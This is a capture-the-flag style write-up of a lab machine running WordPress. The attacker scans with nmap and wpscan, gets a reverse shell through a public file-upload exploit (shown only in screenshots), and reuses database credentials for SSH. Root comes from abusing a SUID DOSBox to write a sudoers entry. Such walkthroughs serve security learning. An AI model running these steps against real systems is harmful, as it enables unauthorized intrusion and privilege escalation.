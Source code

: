 First Enumeration with nmap

`nmap -p- --min-rate 10000 -oN fulltcp.txt -v -Pn <IP>`

```
# Nmap 7.93 scan initiated Thu Jan  5 09:31:45 2023 as: nmap -p- --min-rate 10000 -oN fulltcp.txt -v -Pn 192.168.79.105
Nmap scan report for 192.168.79.105
Host is up (0.17s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
3306/tcp  open  mysql
5000/tcp  open  upnp
13000/tcp open  unknown
36445/tcp open  unknown

Read data files from: /usr/bin/../share/nmap
# Nmap done at Thu Jan  5 09:32:33 2023 -- 1 IP address (1 host up) scanned in 48.49 seconds
```

Now we know what ports are open, let's run default nmap scripts to know what services are running on those ports.

```
# Nmap 7.93 scan initiated Thu Jan  5 09:36:51 2023 as: nmap -sC -sV -oN normal.tcp -p 22,80,3306,5000,13000,36445 -Pn 192.168.79.105
Nmap scan report for 192.168.79.105
Host is up (0.18s latency).

PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 8.3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e6af5d330087aec3828a0884d75da19 (RSA)
|   256 433bb5bf938668e9d5759c7d26945581 (ECDSA)
|_  256 e3f71caecd91c128a33a5bf63eda3f58 (ED25519)
80/tcp    open  http        Apache httpd 2.4.46 ((Unix) PHP/7.4.10)
|_http-server-header: Apache/2.4.46 (Unix) PHP/7.4.10
|_http-title: Retro Gamming &#8211; Just another WordPress site
|_http-generator: WordPress 5.5.1
3306/tcp  open  mysql?
| fingerprint-strings: 
|   LDAPBindReq, NULL, WMSRequest: 
|_    Host '192.168.49.79' is not allowed to connect to this MariaDB server
5000/tcp  open  http        Werkzeug httpd 1.0.1 (Python 3.8.5)
|_http-title: 404 Not Found
13000/tcp open  http        nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Login V14
36445/tcp open  netbios-ssn Samba smbd 4.6.2
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.93%I=7%D=1/5%Time=63B68C24%P=x86_64-pc-linux-gnu%r(NUL
SF:L,4C,"H\0\0\x01\xffj\x04Host\x20'192\.168\.49\.79'\x20is\x20not\x20allo
SF:wed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(LDAPBindReq
SF:,4C,"H\0\0\x01\xffj\x04Host\x20'192\.168\.49\.79'\x20is\x20not\x20allow
SF:ed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(WMSRequest,4
SF:C,"H\0\0\x01\xffj\x04Host\x20'192\.168\.49\.79'\x20is\x20not\x20allowed
SF:\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan  5 09:38:00 2023 -- 1 IP address (1 host up) scanned in 69.63 seconds
```

cool we now know what services are running on those ports. Let's start enumeration with port 80.

![image](https://user-images.githubusercontent.com/87468669/210872594-2bab72f0-cb2b-49fc-ac91-67a3649d2f34.png)

Nice, seems the web service is running a wordpress cms, let's enumerate wordpress using wpscan to enumerate plugins, themes and users.

`wpscan --url http://192.168.79.105/ --enumerate p,t,u`

![image](https://user-images.githubusercontent.com/87468669/210873558-0652681b-9984-45cd-bf0c-0dad13e19edb.png)

Nice we got available plugins `simple file list` & `tutor`. Let's chck online for public exploit.

![image](https://user-images.githubusercontent.com/87468669/210874945-ba84831b-6add-4bf3-99aa-9aa0b9bf12a5.png)

Found a public exploit on exploitdb. This exploit let's us execute an arbitary file upload and get a reverse shell. Let's download and edit the exploit.

![image](https://user-images.githubusercontent.com/87468669/210876463-f3e7355d-24d6-472e-9df9-8ed1f3108898.png)

cool, ran the exploit and got a reverse shell, stabilize the shell and escalate privs.

![image](https://user-images.githubusercontent.com/87468669/210881849-e6834e9a-a559-4a08-8a7d-85a6d194fc96.png)

Found some mysql creds in the wp-config.php file in the /src/http dir.

```                                                                                                                                                 
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PGP/Nukem]
└─$ ssh commander@192.168.79.105                       
commander@192.168.79.105's password: 
[commander@nukem ~]$ id
uid=1000(commander) gid=1000(commander) groups=1000(commander)
[commander@nukem ~]$ whoai 
-bash: whoai: command not found
[commander@nukem ~]$ whoami
commander
[commander@nukem ~]$ sudo -l
[sudo] password for commander: 
Sorry, user commander may not run sudo on nukem.
[commander@nukem ~]$ 
```

I tried using thos creds to login ssh and it worked. I did `sudo -l` the user commander is not in the sudoers file. Let's esclate privs further.

![image](https://user-images.githubusercontent.com/87468669/210884681-285dfa97-e1f0-4df8-bf81-8031d2aed063.png)

Doing `netstat -ano` I found a service running on port 5901 as local host. 

```
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PGP/Nukem]
└─$ ssh -L 5901:127.0.0.1:5901 commander@192.168.79.105
commander@192.168.79.105's password: 
Last login: Thu Jan  5 21:28:07 2023 from 192.168.49.79
[commander@nukem ~]$ ls
Desktop  local.txt  python_rest_flask
[commander@nukem ~]$ 
```

I did forwarded the port 5901 to my local machine using ssh. now let's check for suid on the target box.

![image](https://user-images.githubusercontent.com/87468669/210887764-8a3bf25a-0d55-4435-8a2e-3934b08e9152.png)

Got an suid `dosbox`. DOSBox is a free and open-source emulator which runs software for MS-DOS compatible disk operating systems—primarily video games. It was first released in 2002, when DOS technology was becoming obsolete. Its adoption for running DOS games is widespread, with it being used in commercial re-releases of those games as well. DOSBox can be downloaded and used from the video game console emulator front-end RetroArch. 
dosbox is a gui application. remembered we port forwarded a vnc port to our local host. Let's check it out.

`vncviewer 127.0.0.1:5901`

![image](https://user-images.githubusercontent.com/87468669/210889168-48d243a1-d39a-4134-bfc6-993c3a8be800.png)

We got a vnc session using the password we found earlier. now let's start the dosbox

![image](https://user-images.githubusercontent.com/87468669/210890886-040ee5d6-7bf5-452d-b191-a915782a2df8.png)

Now we've started dosbox. So dosbox is a kinda emulator,  so you're running the dos operating system. so you'll need to mount the files we need.

```
mount C: / to mount the / dir
C:/ to switch to the mount dir
```

![image](https://user-images.githubusercontent.com/87468669/210891444-9a05df59-e5d4-4df8-a102-790354250625.png)

now that we've mounted the c drive to etc we can read the shadow file type shadow and since we have read/write permissions we should be able to write our user to the /etc/sudoers file

`echo commander ALL=(ALL) ALL >>sudoers`.

![image](https://user-images.githubusercontent.com/87468669/210892143-90503eee-f334-4f51-9da5-62e71f8e5e5c.png)

and back in our shell we should be able to upgrade out session with sudo -l and enter the password.

![image](https://user-images.githubusercontent.com/87468669/210892371-73acd67b-1ae1-4221-a490-4e1d24ebb57e.png)

Boom! we got root🤠



